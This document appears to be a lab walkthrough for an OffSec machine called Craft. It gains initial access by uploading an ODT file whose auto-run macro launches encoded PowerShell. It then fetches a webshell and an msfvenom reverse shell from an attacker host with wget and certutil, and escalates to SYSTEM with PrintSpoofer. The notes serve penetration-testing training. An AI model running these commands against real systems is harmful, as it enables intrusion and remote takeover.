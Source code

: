 Host:
```
192.168.212.169
```
# 80
![](attachment/59cc6d64f4678b32e6aec16366fb2020.png)
From website:
admin@craft.offsec
![](attachment/77338c3a37122bdb329a9448143bf039.png)
There is a file upload

![](attachment/1220a1807a8d5fbb5b7740a63c27189e.png)
We need an ODT file for exploiting

Now create an odt file 
Then  add the macro:
Tools-> macros->Organise macros-->Basic![](attachment/8b78addc9436e1d3924450e5ea44720e.png)
Create a macro
![](attachment/348e8a0eb661efb4fe4f9b948c07f64f.png)
```
Sub Main
    Shell("cmd /c powershell -e JABjAGwAaQBlAG4Ad...ABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA")
End Sub
```
\
Then we can configure it to open on document open:

Tools-->Customise:
![](attachment/0388372b75812b418eb3b74a2b6ce7e8.png)

Now we can upload the file and get a shell:![](attachment/d449b7e3b915d5afb868e68ce214b1e0.png)

Shell:
![](attachment/73e5ce1ce1321085e3d018b27e13d88c.png)\

Now we find the files for the web server:
![](attachment/9d36c2187455ce851e81f789b7b64ef5.png)
We can put a webshell:
```
wget http://192.168.45.236/shell.php -o shell.php
```
and make a reverse shell:
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.236 LPORT=3001 -f exe -o shell.exe
```
```
wget http://192.168.45.236/shell.exe -o shell.exe
```
![](attachment/f9b617c4ef49ae6916c440848f3410bb.png)
Now we can run it:
![](attachment/2f4c6c00550a1ea63cfda8571898745b.png)
Now we get a shell:
![](attachment/1bc733991916fcc4a58d61fed7c2995a.png)\

Now using `whoami /priv`:
![](attachment/9c8a085ea19c4ad0b16a534dc8e4b5d3.png)

We can use PrintSpoofer:
```
certutil -urlcache -f http://192.168.45.236/PrintSpoofer64.exe PrintSpoofer64.exe
```
```
PrintSpoofer.exe -i -c powershell.exe
```
We get a shell as nt authority\system:![](attachment/579fa7ad9786155f24ec53855257de75.png)

